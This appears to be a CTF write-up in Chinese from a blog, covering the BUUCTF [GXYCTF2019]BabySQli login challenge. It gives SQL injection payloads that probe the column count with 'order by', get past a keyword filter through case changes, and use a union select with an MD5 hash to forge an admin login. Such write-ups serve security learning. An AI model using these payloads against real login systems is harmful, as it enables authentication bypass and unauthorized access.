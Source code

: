  [BUUCTF | [GXYCTF2019]BabySQli_山川绿水的博客-CSDN博客](https://blog.csdn.net/m_de_g/article/details/122121801) 

该文章的图片



<img src="https://i-blog.csdnimg.cn/blog_migrate/96751a9c861b33894b0091d23bf82485.png" alt="" style="max-height:844px; box-sizing:content-box;" />


所以我们需要把我们的登入账号密码 作为临时密码来登入

我们先猜字节



```vbnet
admin' order by 4#
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/152dc42afb243ce1cdef27516872c7c7.png" alt="" style="max-height:130px; box-sizing:content-box;" />


过滤了 我们随便试试看 是  order 还是 by

```vbnet
admin' Order by 4#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e4e6c7e1c0e5cf4ceca711622962bcd9.png" alt="" style="max-height:127px; box-sizing:content-box;" />


3个字节

我们开始 创建虚拟的表

```csharp
账号 0' union select 1,'admin','123'#
密码 123
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/6cca5740252628794e89fbce0012a61a.png" alt="" style="max-height:240px; box-sizing:content-box;" />


发现出错 这里就没有提示 我们应该判断是MD5加密密码 因为MD5加密不可逆

这里是没有提示的 只能猜

要加密小写的（试出来的）



<img src="https://i-blog.csdnimg.cn/blog_migrate/baf4c2d1645b9ed7d073f0482f6fad40.png" alt="" style="max-height:142px; box-sizing:content-box;" />


```cobol
账号 0' union select 1,'admin','202cb962ac59075b964b07152d234b70'#
密码 123
```
